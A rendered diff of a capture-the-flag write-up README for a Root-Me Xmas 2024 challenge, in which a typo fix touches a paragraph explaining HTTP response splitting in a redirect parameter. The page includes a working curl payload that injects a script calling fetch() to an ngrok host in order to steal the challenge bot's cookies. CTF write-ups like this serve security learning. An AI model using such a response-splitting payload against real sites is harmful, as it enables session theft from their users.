

Before and after one commit to Ax8457/WriteUPs, a Markdown page: Xmas_RootMe_2024/CutsomHttpServer/README.md, the part around the change. Drawn GitHub-style.

`````diff
--- a/Xmas_RootMe_2024/CutsomHttpServer/README.md
+++ b/Xmas_RootMe_2024/CutsomHttpServer/README.md
@@ -50,7 +50,7 @@ router.get('/api/redirect', (req, res) => {
 });
 ````
 
-<p align="justify">In this route, the user input was used to set the Location header for redirecting properly. Because of the lack of filters/CSP on the user input, it was possible possible to injecte the parameter to send the bot onto an external website. That's what I tried; I deployed a server and made the bot fetching it. It came useless because cookie's bot was defined on 127.0.0.1 meaning the bot was fetching my server with document.cookie variable empty. After a few read, I came up with the idea of using \n\r chars to overwritte redirect page thanks to this insightful article about http response splitting <a href="https://blog.detectify.com/industry-insights/http-response-splitting-exploitations-and-mitigations/">doc</a>. On burp browser (chrome based) the exploit worked well and I was able to steel my own cookies with the following payload : </p>
+<p align="justify">In this route, the user input was used to set the Location header for redirecting properly. Because of the lack of filters/CSP on the user input, it was possible possible to inject the parameter to send the bot onto an external website. That's what I tried; I deployed a server and made the bot fetching it. It came useless because cookie's bot was defined on 127.0.0.1 meaning the bot was fetching my server with document.cookie variable empty. After a few read, I came up with the idea of using \n\r chars to overwritte redirect page thanks to this insightful article about http response splitting <a href="https://blog.detectify.com/industry-insights/http-response-splitting-exploitations-and-mitigations/">doc</a>. On burp browser (chrome based) the exploit worked well and I was able to steel my own cookies with the following payload : </p>
 
 ````bash
 curl -G "http://dyn-01.xmas.root-me.org:24694/api/report" --data-urlencode "url=http://127.0.0.1:3000/api/redirect?url=%0D%0AContent-Type%3A%20text%2Fhtml%20%0A%0A%3Chtml%3E%3Cscript%3Efetch%28%27http%3A%2F%2F7.tcp.eu.ngrok.io%3A18440%2F%27%29%3C%2Fscript%3E%3C%2Fhtml%3E%0A%0A"
`````
